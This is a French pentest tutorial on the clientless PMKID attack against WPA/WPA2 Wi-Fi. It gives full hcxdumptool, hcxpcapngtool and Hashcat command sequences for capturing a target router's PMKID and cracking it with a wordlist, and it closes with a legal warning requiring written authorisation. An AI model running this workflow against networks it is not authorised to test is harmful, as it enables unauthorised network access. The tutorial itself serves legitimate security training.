

# hcxtools & PMKID — L'Attaque sans Client

<div
  class="omny-meta"
  data-level="🔴 Avancé"
  data-version="2018+"
  data-time="~20 minutes">
</div>

<div style="text-align: center; margin: 0 auto;">
    
</div>

## Introduction

!!! quote "Analogie pédagogique — L'Arnaque au Reçu"
    Avec les anciennes méthodes (Aircrack-ng), le braqueur devait attendre patiemment caché dans un buisson qu'un client légitime rentre chez lui et tape son code pour l'enregistrer. S'il n'y a pas de client, l'attaque est impossible.
    En 2018, le chercheur Jens "Zerbea" Steube a découvert l'arnaque parfaite : l'attaquant s'approche du bâtiment et dit à la porte *"Salut, je suis un utilisateur, donne-moi le reçu cryptographique prouvant que tu gères bien les mots de passe"*. La porte (le routeur), très polie (Roaming 802.11r), lui donne le reçu. Le problème ? Ce reçu (le **PMKID**) contient le mot de passe du réseau, salé et haché ! L'attaquant rentre chez lui avec le reçu et le déchiffre.

Les **hcxtools** (et son petit frère *hcxdumptool*) ont révolutionné le pentest WiFi. Ils permettent d'attaquer la robustesse d'une clé WPA/WPA2 **même si aucun appareil n'est connecté au réseau**. La cible n'a pas besoin de subir de désauthentification, rendant l'attaque à la fois plus rapide et extrêmement furtive.

<br>

---

## Fonctionnement & Architecture (La Faille PMKID)

La faille réside dans le mécanisme de Roaming (conçu pour que les téléphones passent d'une borne WiFi à l'autre sans coupure). Le routeur envoie le "Pairwise Master Key Identifier" (PMKID) dès le premier message de connexion, avant même que l'utilisateur n'ait à prouver qu'il connaît le mot de passe.



<br>

---

## Cas d'usage & Complémentarité

L'attaque PMKID est aujourd'hui la **méthode prioritaire** lors d'un audit sans fil. Si elle échoue (car le routeur a été patché ou ne supporte pas le roaming), on se rabat sur l'ancienne méthode de désauthentification (Aircrack-ng).

*   **Complémentarité Hashcat** : Ces outils ont été créés spécifiquement pour alimenter le logiciel **Hashcat** (le casseur de mots de passe sur Carte Graphique). Hashcat ne lit pas les vieux fichiers `.cap`, il a besoin du format très optimisé généré par hcxtools (le format hash `22000`).

<br>

---

## Les Options Principales (Par Outil)

Cette technique repose sur deux outils distincts mais inséparables.

### 1. hcxdumptool (L'Outil de Capture Physique)
Cet outil remplace à la fois `airmon-ng`, `airodump-ng` et `aireplay-ng`. Il gère la carte WiFi en totale autonomie.

| Option | Fonction | Description approfondie |
| :--- | :--- | :--- |
| `-i [wlan0]` | **Interface** | La carte réseau à utiliser. *hcxdumptool la passera en mode monitor lui-même.* |
| `-o [fichier]` | **Output** | Nom du fichier de capture au format Pcapng. |
| `--filterlist_ap` | **Ciblage** | Permet de cibler uniquement l'adresse MAC d'un routeur spécifique (très recommandé). |

### 2. hcxpcapngtool (Le Convertisseur)
Cet outil transforme la capture réseau brute en un fichier compréhensible par le craqueur (Hashcat).

| Option | Fonction | Description approfondie |
| :--- | :--- | :--- |
| `-o [hash.hc22000]` | **Output Hashcat** | Génère le fichier contenant les empreintes cryptographiques des PMKID prêts à être bruteforcés. |

<br>

---

## Installation & Configuration

Les outils hcx évoluent extrêmement vite. Il est souvent recommandé de les compiler depuis le code source (GitHub) plutôt que d'utiliser les paquets Kali Linux s'ils sont trop vieux.

```bash title="Installation standard (Kali Linux)"
sudo apt update
sudo apt install hcxdumptool hcxtools hashcat
```

<br>

---

## Le Workflow Idéal (L'Extraction PMKID)

Voici comment une Red Team récupère les clés d'une entreprise le dimanche, alors qu'il n'y a aucun employé dans les locaux.

### 1. Préparation (Nettoyage réseau)
```bash title="Libération de la carte WiFi"
# Absolument indispensable pour hcxdumptool
sudo systemctl stop NetworkManager
sudo systemctl stop wpa_supplicant
```

### 2. Capture Active (hcxdumptool)
```bash title="Demande du PMKID"
# Remplacez wlan0 par le nom de votre carte
# L'outil tourne et bombarde la cible pour obtenir les trames EAPOL
sudo hcxdumptool -i wlan0 -o capture_brute.pcapng --filterlist_ap=mac_cible.txt --filtermode=2
```
*Attendez quelques minutes. L'outil affichera `[FOUND PMKID]`. Dès que c'est fait, faites Ctrl+C pour arrêter.*

### 3. Extraction de l'Empreinte (hcxpcapngtool)
```bash title="Conversion pour Hashcat"
# Transforme la capture réseau en "hashes" prêts à être attaqués
hcxpcapngtool -o hashes_prets.hc22000 capture_brute.pcapng
```

### 4. Cassage sur GPU (Hashcat)
```bash title="L'Attaque par Dictionnaire"
# Le mode 22000 (WPA-PBKDF2-PMKID) est le mode unifié de Hashcat pour le WiFi
hashcat -m 22000 hashes_prets.hc22000 /usr/share/wordlists/rockyou.txt
```

<br>

---

## Bonnes & Mauvaises Pratiques (Do's & Don'ts)

| Action | Recommandation | Explication métier |
|---|---|---|
| ✅ **À FAIRE** | **Utiliser Hashcat avec GPU** | Le WPA2 est très lourd cryptographiquement. Un processeur (CPU) fera 2000 mots par seconde. Une bonne carte graphique (GPU) en fera 500 000. Le bruteforce WPA ne se fait **jamais** sur CPU professionnellement. |
| ✅ **À FAIRE** | **Redémarrer les services après** | Hcxdumptool coupe votre accès internet pour utiliser la carte WiFi. N'oubliez pas de taper `sudo systemctl start NetworkManager` à la fin de votre mission pour retrouver internet. |
| ❌ **À NE PAS FAIRE** | **Se fier uniquement au PMKID** | Les box d'opérateurs récentes et les routeurs d'entreprise bien configurés ont désactivé cette fonctionnalité de roaming (802.11r). Si l'outil ne trouve rien en 5 minutes, passez à l'ancienne méthode avec Aircrack-ng. |

<br>

---

## Avertissement Légal & Éthique

!!! danger "Interaction Matérielle non Autorisée"
    Même si l'attaque PMKID ne nécessite pas de déconnecter un employé (Deauth), elle reste une attaque **active**.
    
    En envoyant des requêtes d'association modifiées au routeur de la cible pour l'obliger à vous fournir des données cryptographiques, vous interagissez frauduleusement avec un système informatique.
    
    Cette action de compromission cryptographique dans le but de casser une authentification tombe sous le coup de l'**Article 323-1 du Code pénal** : *Accès frauduleux dans tout ou partie d'un système de traitement automatisé de données.* Le mandat d'intrusion (autorisation écrite) est obligatoire.

